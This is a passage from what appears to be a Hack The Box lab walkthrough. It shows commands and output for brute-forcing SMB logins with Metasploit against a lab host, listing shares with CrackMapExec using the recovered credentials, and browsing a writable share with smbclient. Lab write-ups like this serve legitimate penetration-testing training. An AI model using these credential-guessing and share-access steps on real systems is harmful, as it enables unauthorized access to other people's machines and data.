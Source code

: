 ```shell-session
msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list


msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
{% endcode %}

Now we can use <mark style="color:orange;">**`CrackMapExec`**</mark><mark style="color:orange;">**&#x20;**</mark><mark style="color:orange;">**again to view the available shares and what privileges we have for them.**</mark>

### <mark style="color:blue;">**CrackMapExec**</mark>

{% code fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ crackmapexec smb 10.129.42.197 -u "user" -p "password" --shares

SMB         10.129.42.197   445    WINSRV           [*] Windows 10.0 Build 17763 x64 (name:WINSRV) (domain:WINSRV) (signing:False) (SMBv1:False)
SMB         10.129.42.197   445    WINSRV           [+] WINSRV\user:password 
SMB         10.129.42.197   445    WINSRV           [+] Enumerated shares
SMB         10.129.42.197   445    WINSRV           Share           Permissions     Remark
SMB         10.129.42.197   445    WINSRV           -----           -----------     ------
SMB         10.129.42.197   445    WINSRV           ADMIN$                          Remote Admin
SMB         10.129.42.197   445    WINSRV           C$                              Default share
SMB         10.129.42.197   445    WINSRV           SHARENAME       READ,WRITE      
SMB         10.129.42.197   445    WINSRV           IPC$            READ            Remote IPC
```
{% endcode %}

To communicate with the server via SMB, we can use, for example, the tool [smbclient](https://www.samba.org/samba/docs/current/man-html/smbclient.1.html). This tool will allow us to view the contents of the shares, upload, or download files if our privileges allow it.

### <mark style="color:blue;">**Smbclient**</mark>

```shell-session
mrroboteLiot@htb[/htb]$ smbclient -U user \\\\10.129.42.197\\SHARENAME

Enter WORKGROUP\user's password: *******

Try "help" to get a list of possible commands.


smb: \> ls
  .                                  DR        0  Thu Jan  6 18:48:47 2022
  ..                                 DR        0  Thu Jan  6 18:48:47 2022
  desktop.ini                       AHS      282  Thu Jan  6 15:44:52 2022

                10328063 blocks of size 4096. 6074274 blocks available
smb: \> 
```
